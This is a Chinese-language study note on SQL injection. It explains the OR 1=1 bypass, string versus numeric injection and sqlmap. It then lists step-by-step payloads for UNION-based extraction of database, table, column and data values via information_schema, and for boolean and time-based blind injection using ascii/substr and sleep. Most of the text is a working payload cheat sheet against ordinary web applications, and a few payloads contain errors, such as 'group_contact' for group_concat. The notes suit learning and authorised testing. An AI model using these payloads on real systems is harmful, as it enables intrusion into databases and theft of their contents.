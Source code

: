 #  输入设计的非正常的SQL语句，例如输入 1 OR 1=1 --
例如SELECT * FROM USER WHERE ID=$id and PWD=$pwd;输入后变成SELECT * FROM USER WHERE ID=1 OR 1=1 --and PWD=$pwd;实现了USER表的提出
使用sqlmap可以方便测试 
sql注入主要是直接将代码插入参数中，参数会被置入SQL命令加以执行。间接的攻击方式是将恶意代码插入字符串中，之后再将字符串保存到数据表中或将其当做元数据。当字符串置入动态SQL命令中时，恶意代码就被执行。
sql注入需要确认参数的数据类型，数字型参数不需要加引号，数字型SQL注入和字符型SQL注入的区别。
当注入后，选择的数据不能回显到前端界面，此时需要进行基于错误响应的SQL盲注，分为基于布尔型的SQL盲注（布尔盲注）和基于时间的SQL盲注（延时盲注1' and if(ascii(substring(database(),1,1))=115,sleep(10),1)成功的话会延时10秒）。https://www.cnblogs.com/xishaonian/p/6113965.html
技巧：多用and 1 = ‘1’ 连接以使得正常命令失败不会回显，回显的是错误从而确定命令是否非法
 --注释要加空格，1' and '1'=1-- '确定字符注入，order by 确定字段数，然后用union select 1,database(),3 确定数据库名(select多个值是因为可能服务器对字段有过滤)
确定table名：-1' union select 1,group_contact(table_name),3 from information_schema.tables where table_schema='库名'--空格 （information_schema.tables是系统数据库下用来存储表信息group_contact()用来连接多个查询结果）
确定字段名：-1' union select 1,group_contact(column_name),3 from information_schema.columns where table_name='表名'--空格
确定数据内容：-1' union select 1,字段,3 from 表--空格
布尔盲注利用一些判断条件，条件成立时输出数据：例如输入1'时没有回显信息则可以判定是字符注入
1' and length(database())>1 %23可以判断库名长度，1++直到不满足条件不能回显（%23是#注释）
判断库名1' and ascii(substr(database(),2,1))=115%23 提取库名第二个值是否等于s，正确的话会回显。需要循环判断出库名
判断各个表长：1' and 2<(select length(table_name) from information_schema.tables where table_schema=database() limit0,1)%23
判断表名：1' and ascii(substr((select table_name from information_schema.tables where table_name=database() limit 0,1),0,1))=115%23
判断各个字段长度：1' and 2<(select length(column_name) from information_schema.columns where table_name=表名  limit 0,1)%23
判断字段名1' and ascii(substr((select column_name from information_schema.columns where table_name=表名 limit 0,1),0,1))=115%23
测试记录数1' and 2<(select count(*) from 表)%23
判断数据长度 1' and 2<(select length(字段) from 表 limit 0,1)%23
判断数据值1' and ascii(substr((select 字段 from 表 limit 0,1),0,1))=115%23
延时盲注与布尔盲注同理，只是通过回显时间判断执行成功。
